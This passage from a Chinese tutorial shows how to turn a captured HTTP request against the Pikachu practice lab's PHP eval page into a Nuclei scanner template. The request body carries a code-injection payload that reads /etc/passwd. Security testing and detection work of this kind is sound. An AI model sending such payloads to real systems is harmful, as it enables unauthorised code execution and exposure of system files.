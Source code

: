 在上述模板中，工具将向目标的 `/vulnerable/path` 发送一个 GET 请求。匹配器将检查响应状态码是否为 200（正常响应），并且响应体中是否包含关键字 `"Vulnerable response"`。只有在满足所有匹配条件的情况下，模板才认为目标存在该漏洞。

---

例如将如下 Pikachu RCE EXEC Eval 的 HTTP 请求改成 nuclei template

```http
POST /vul/rce/rce_eval.php HTTP/1.1
Host: 192.168.1.215:9221
Content-Length: 82
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.215:9221/vul/rce/rce_eval.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=9tru1fbi3fto5uguhu9fd395ie
Connection: close

txt=echo+file_get_contents%28%27%2Fetc%2Fpasswd%27%29%3B&submit=%E6%8F%90%E4%BA%A4
```

---

```yaml
id: pikachu_rce_eval_cat_password # 模板的唯一标识符

info:
  name: PikachuRCEEval # 模板名称
  author: 233 # 作者名称
  severity: high # 漏洞严重程度
  description: |
    pikachu_rce_eval_cat_password 检测 /vul/rce/rce_eval.php 路径下是否存在远程命令执行漏洞，通过提交恶意命令并检查响应内容。
  reference:
    - "https://sample.com" # 参考链接
  tags: rce,PHP,pikachu

http:
  - method: POST # HTTP 请求方法
    path:
      - "{{BaseURL}}/vul/rce/rce_eval.php" # 请求路径，{{BaseURL}} 为目标基 URL
    headers:
      Content-Length: "82" # 内容长度
      Cache-Control: "max-age=0" # 缓存控制
      Upgrade-Insecure-Requests: "1" # 升级不安全请求
      Content-Type: "application/x-www-form-urlencoded" # 内容类型
      User-Agent: "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36" # 用户代理
      Accept: "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9" # 接受的内容类型
      Referer: "{{BaseURL}}/vul/rce/rce_eval.php" # 引用页
      Accept-Encoding: "gzip, deflate" # 接受的编码
      Accept-Language: "zh-CN,zh;q=0.9" # 接受的语言
      Cookie: "PHPSESSID=9tru1fbi3fto5uguhu9fd395ie" # Cookie
      Connection: "close" # 连接方式
    body: "txt=echo+file_get_contents%28%27%2Fetc%2Fpasswd%27%29%3B&submit=%E6%8F%90%E4%BA%A4" # 请求体
    matchers-condition: and # 匹配条件
    matchers:
      - type: word # 匹配器类型：关键字匹配
        part: body # 匹配响应体
```